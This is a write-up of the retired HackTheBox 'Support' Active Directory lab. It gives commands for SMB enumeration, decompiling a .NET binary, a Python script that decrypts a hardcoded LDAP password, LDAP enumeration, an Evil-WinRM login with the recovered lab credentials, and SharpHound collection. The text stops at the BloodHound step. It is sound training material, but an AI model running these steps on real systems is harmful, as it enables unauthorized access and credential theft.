# Support — HackTheBox Report

| Difficulty | OS      | Category         |
| ---------- | ------- | ---------------- |
| Easy       | Windows | Active Directory |

> Writeup of a retired Support machine, published for educational/portfolio purposes.

---

## Table of Contents

- [Executive Summary](#executive-summary)
- [Scope](#scope)
- [Approach / Methodology](#approach--methodology)
- [Tools Used](#tools-used)
- [Assessment Summary (Findings Overview)](#assessment-summary-findings-overview)
- [Attack Chain Walkthrough](#attack-chain-walkthrough)
  * [1.1. Reconnaissance](#11-reconnaissance)
  * [1.2. SMB Enumeration](#12-smb-enumeration)
  * [1.3. Binary Retrieval and File Identification](#13-binary-retrieval-and-file-identification)
  * [2.1. .NET Binary Decompilation](#21-net-binary-decompilation)
  * [2.2. Credential Extraction and Decryption](#22-credential-extraction-and-decryption)
  * [2.3. LDAP Enumeration](#23-ldap-enumeration)
  * [2.4. Initial Foothold via WinRM](#24-initial-foothold-via-winrm)
  * [3.1. Post-Exploitation Domain Enumeration](#31-post-exploitation-domain-enumeration)
  * [3.2. BloodHound Analysis](#32-bloodhound-analysis)
  * [3.3. RBCD Pre-Condition Verification](#33-rbcd-pre-condition-verification)
  * [3.4. Fake Computer Account Creation](#34-fake-computer-account-creation)
  * [3.5. Configuring Resource-Based Constrained Delegation](#35-configuring-resource-based-constrained-delegation)
  * [3.6. S4U Attack and Kerberos Ticket Generation](#36-s4u-attack-and-kerberos-ticket-generation)
  * [3.7. Pass-the-Ticket and Domain Admin Access](#37-pass-the-ticket-and-domain-admin-access)
- [Technical Findings Details](#technical-findings-details)
- [Remediation Summary](#remediation-summary)
- [Lessons Learned / Skills Demonstrated](#lessons-learned--skills-demonstrated)
- [Appendix](#appendix)
  * [A. Finding Severity Definitions](#a-finding-severity-definitions)
  * [B. Exploited Hosts](#b-exploited-hosts)
  * [C. Compromised Users / Credentials](#c-compromised-users--credentials)
  * [D. Command Reference Log](#d-command-reference-log)
  * [E. References](#e-references)

---

## Executive Summary

**Target:** `Support / IP: 10.129.60.142`
**Platform:** `HackTheBox`
**Date Completed:** `September 24, 2026`
**Assessment Type:** `Active Directory / Windows Host`
**Approach:** `Black box` — tested with `no prior knowledge`.

Pheenix Security was engaged to conduct a simulated attack against the HackTheBox Support environment. The goal was to assess how well the environment would hold up against an outside attacker — someone with no prior access, no insider knowledge, and no special privileges — and to identify any weaknesses before a real attacker could.

The results are serious. Starting from the same position as any outside attacker, we were able to gain complete control of the organization's server and user account infrastructure. In a real-world scenario, this level of access would allow an attacker to read, alter, or destroy any data on the network; create or remove user accounts; lock the entire organization out of its own systems; and cover their tracks afterward — all without needing physical access to any device.

Four security issues made this possible, each one building on the last. None of them required exploiting a flaw in a commercial product. Every issue stems from configuration and policy decisions that are correctable. The fixes are well-understood and achievable in the short term.

Overall, the risk level of the assessed environment is rated **Critical**. We strongly recommend prioritizing the remediation actions outlined in this report, beginning with the immediate steps described in the Remediation Summary section.

---

## Scope

| Host / URL / IP Address            | Description                                                        |
| ---------------------------------- | ------------------------------------------------------------------ |
| `support.htb / 10.129.60.142`      | Target machine — Windows Server Domain Controller (`dc.support.htb`) |

> Testing was restricted to the host listed above, consistent with the platform's rules of engagement.

---

## Approach / Methodology

1. **Reconnaissance** — passive/active information gathering on the target.
2. **Scanning & Enumeration** — port/service discovery and fingerprinting.
3. **Vulnerability Analysis** — identifying exploitable misconfigurations or weaknesses.
4. **Exploitation** — gaining an initial foothold via credential discovery and WinRM.
5. **Privilege Escalation** — moving from low-privileged domain user to full domain Administrator via RBCD.
6. **Post-Exploitation** — validating impact, capturing flags/evidence, cleanup.

---

## Tools Used

| Tool                       | Purpose                                                                       |
| -------------------------- | ----------------------------------------------------------------------------- |
| `Nmap`                     | Port scanning and service enumeration                                         |
| `smbclient`                | SMB share enumeration and file retrieval                                      |
| `Avalonia ILSpy`           | .NET binary decompilation to recover near-original C# source                  |
| `Python 3`                 | Custom XOR decryption script to recover the obfuscated LDAP password          |
| `ldapsearch`               | Authenticated LDAP enumeration of domain objects and attributes               |
| `Evil-WinRM`               | Remote shell access via Windows Remote Management (WinRM)                     |
| `SharpHound`               | Active Directory data collection for BloodHound graph ingestion               |
| `BloodHound`               | AD attack path visualization and privilege analysis                           |
| `PowerView`                | PowerShell AD enumeration (msDS-AllowedToActOnBehalfOfOtherIdentity check)    |
| `Powermad`                 | Creation of an attacker-controlled machine account for the RBCD chain         |
| `Rubeus`                   | Kerberos hash calculation and S4U2Self/S4U2Proxy ticket request               |
| `impacket-ticketConverter` | Conversion of Kerberos ticket from `.kirbi` to `.ccache` format               |
| `psexec.py` (Impacket)     | Pass-the-ticket execution as Administrator on the Domain Controller           |

---

## Assessment Summary (Findings Overview)

The assessment identified a four-link attack chain progressing from unauthenticated network access to full domain compromise of the `support.htb` Active Directory environment. An openly accessible SMB share exposed a custom application containing hardcoded, weakly obfuscated LDAP credentials. Using those credentials to enumerate LDAP revealed a domain user's password stored in cleartext in a non-standard attribute. That user's group membership carried a `GenericAll` ACE on the Domain Controller, which was exploited via an RBCD/S4U Kerberos attack to impersonate the domain Administrator. The overall risk to the assessed environment is assessed as **Critical**.

| Severity      | Count |
| ------------- | ----- |
| Critical      | 2     |
| High          | 1     |
| Medium        | 1     |
| Low           | 0     |
| Informational | 0     |

| #  | Severity | Finding Name                                                              |
| -- | -------- | ------------------------------------------------------------------------- |
| 1  | Critical | Hardcoded LDAP Credentials in Publicly Accessible Application Binary      |
| 2  | Critical | Overpermissive ACL (GenericAll on DC) Enabling RBCD Domain Compromise     |
| 3  | High     | Plaintext Password Stored in LDAP User Attribute                          |
| 4  | Medium   | Unauthenticated Guest Access to SMB Share                                 |

*(Full detail on each finding is in the [Technical Findings Details](#technical-findings-details) section below.)*

---

## Attack Chain Walkthrough

> This section documents the full path from unauthenticated access to domain Administrator compromise, step by step, with commands and evidence. Lab IPs are shown as-is; this is a retired HTB machine published for educational and portfolio purposes.

### 1.1. Reconnaissance

```
nmap -sC -sV -Pn 10.129.60.142
```



**Findings:** The service fingerprint is consistent with a Windows Server functioning as a Domain Controller for the domain `support.htb`. Key open ports included:

| Port    | Service         | Significance                                                 |
| ------- | --------------- | ------------------------------------------------------------ |
| 53      | DNS             | Domain naming — confirms DC role                             |
| 88      | Kerberos        | Authentication service — confirms DC role                    |
| 135     | MSRPC           | RPC endpoint mapper                                          |
| 139/445 | SMB             | File sharing — high-value enumeration target                 |
| 389     | LDAP            | Directory services — domain object enumeration               |
| 5985    | WinRM           | Remote management — foothold vector if credentials are found |

The combination of Kerberos (88) and LDAP (389) immediately confirms this is a Domain Controller. WinRM (5985) being open means that valid domain credentials will translate directly to an interactive remote shell.

---

### 1.2. SMB Enumeration

```
smbclient -L \\\\10.129.60.142\\
```



**Findings:** Six shares were returned. No authentication was required — pressing Enter at the password prompt was sufficient. The non-standard `support-tools` share (described as "support staff tools") stands out immediately. Administrative tool shares frequently contain sensitive files not intended for public exposure, making them a high-priority target.

```
smbclient \\\\10.129.60.142\\support-tools
dir
```



**Findings:** The share contained several standard IT utilities alongside one internally developed application: `UserInfo.exe.zip`. Custom, internally developed tools are a high-priority target during penetration tests because they are rarely subject to the same security scrutiny as commercial software and often contain embedded secrets or other sensitive data.

---

### 1.3. Binary Retrieval and File Identification

```
get UserInfo.exe.zip
exit
unzip UserInfo.exe.zip
file UserInfo.exe
```



**Findings:** The `file` command confirmed that `UserInfo.exe` is a **.NET assembly** (`Mono/.Net assembly`). This is a critical observation: .NET assemblies compile to intermediate language (IL) bytecode rather than native machine code, meaning they can be fully decompiled back to near-original C# source code using readily available tools. Any secret embedded in a .NET binary is never truly hidden.

---

### 2.1. .NET Binary Decompilation

Avalonia ILSpy was used to decompile `UserInfo.exe`:

```
wget https://github.com/icsharpcode/AvaloniaILSpy/releases/download/v7.2-rc/Linux.x64.Release.zip
unzip Linux.x64.Release.zip
unzip ILSpy-linux-x64-Release.zip
cd artifacts/linux-x64
./ILSpy
# File → Open → UserInfo.exe
```



**Findings:** ILSpy fully decompiled the application. The namespace tree revealed several significant classes: `LdapQuery` (responsible for connecting to the LDAP server), `FindUser`, `GetUser`, and a class named `Protected`. Inspecting `LdapQuery()` revealed the following constructor:


```csharp
public LdapQuery()
{
    string password = Protected.getPassword();
    entry = new DirectoryEntry("LDAP://support.htb", "support\\ldap", password);
    entry.set_AuthenticationType((AuthenticationTypes)1);
    ds = new DirectorySearcher(entry);
}
```

**Findings:** The binary connects to `LDAP://support.htb` as `support\ldap` with a password retrieved at runtime from `Protected.getPassword()`. Inspecting the `Protected` class exposed the full credential handling logic:


```csharp
internal class Protected
{
    private static string enc_password = "0Nv32PTwgYjzg9/8j5TbmvPd3e7WhtWWyuPsyO76/Y+U193E";
    private static byte[] key = Encoding.ASCII.GetBytes("armando");

    public static string getPassword()
    {
        byte[] array = Convert.FromBase64String(enc_password);
        byte[] array2 = array;
        for (int i = 0; i < array.Length; i++)
        {
            array2[i] = (byte)((uint)(array[i] ^ key[i % key.Length]) ^ 0xDFu);
        }
        return Encoding.Default.GetString(array2);
    }
}
```

**Root Cause:** The password is base64-encoded then XOR-encrypted using the static key `"armando"` and a secondary XOR constant of `0xDF` (223). Both the ciphertext and the key are present in the same binary. XOR is a fully reversible, symmetric operation — with the key available, decryption is trivial. This provides no meaningful confidentiality for the credential.

---

### 2.2. Credential Extraction and Decryption

The decryption logic was replicated in Python to recover the plaintext password:

```python
import base64
from itertools import cycle

enc_password = base64.b64decode("0Nv32PTwgYjzg9/8j5TbmvPd3e7WhtWWyuPsyO76/Y+U193E")
key = b"armando"
key2 = 223  # 0xDF

res = ''
for e, k in zip(enc_password, cycle(key)):
    res += chr(e ^ k ^ key2)

print(res)
```

```
python3 decrypt.py
```



**Credential recovered:** `ldap@support.htb` : `nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz`

---

### 2.3. LDAP Enumeration

With the recovered LDAP service account credentials, a full directory enumeration was performed:

```
echo "10.129.60.142 support.htb" | sudo tee -a /etc/hosts
sudo apt install ldap-utils
ldapsearch -H ldap://support.htb -D ldap@support.htb \
  -w 'nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz' -b "dc=support,dc=htb" "*"
```



**Findings:** The query returned a large volume of domain objects across users, groups, computers, and configuration. Manual review of the output revealed a notable attribute on the `support` user object:



The `info:` attribute of the `support` user contained the string `Ironside47pleasure40Watchful`. The `info` attribute is a general-purpose administrative notes field — it is not a protected or encrypted credential store. Any user or service account with LDAP read access can retrieve this value. Credentials stored here are readable in cleartext by any authenticated domain principal.

**Credential recovered:** `support@support.htb` : `Ironside47pleasure40Watchful`

---

### 2.4. Initial Foothold via WinRM

Recalling that port 5985 (WinRM) was open from the initial Nmap scan, the recovered credentials were tested for remote management access:

```
evil-winrm -u support -p 'Ironside47pleasure40Watchful' -i support.htb
whoami
cd C:\Users\support\Desktop
cat user.txt
```


**Result:** Authentication was successful. An interactive PowerShell session was obtained on the Domain Controller as `support\support`.

**user.txt:** `d8a942c7f49553d53b96e3f69c92471a`

---

### 3.1. Post-Exploitation Domain Enumeration

With a foothold established, domain context was gathered to understand the environment and identify escalation vectors:

```powershell
Get-ADDomain
```



```
echo "10.129.60.142 dc.support.htb" | sudo tee -a /etc/hosts
```

```powershell
whoami /groups
```



**Findings:** The `support` user is a member of the non-default group `SUPPORT\Shared Support Accounts`. Non-default group memberships are a key pivot point in Active Directory environments — the significance of this membership was the central focus of BloodHound analysis.

---

### 3.2. BloodHound Analysis

SharpHound was uploaded to the target to collect Active Directory telemetry for BloodHound graph analysis:

```bash
# Attacker machine — start BloodHound
sudo neo4j start
wget https://github.com/SpecterOps/BloodHound-Legacy/releases/download/v4.3.1/BloodHound-linux-x64.zip
unzip BloodHound-linux-x64.zip
./BloodHound-linux-x64/BloodHound

git clone https://github.com/BloodHoundAD/BloodHound
```

```powershell
# Evil-WinRM session
cd C:\Windows\Temp
upload SharpHound.exe
.\SharpHound.exe
download 20260924175507_BloodHound.zip
```


The collected zip was imported into BloodHound. The `support` user was marked as owned. Querying for outbound attack paths from this node revealed a critical privilege chain:

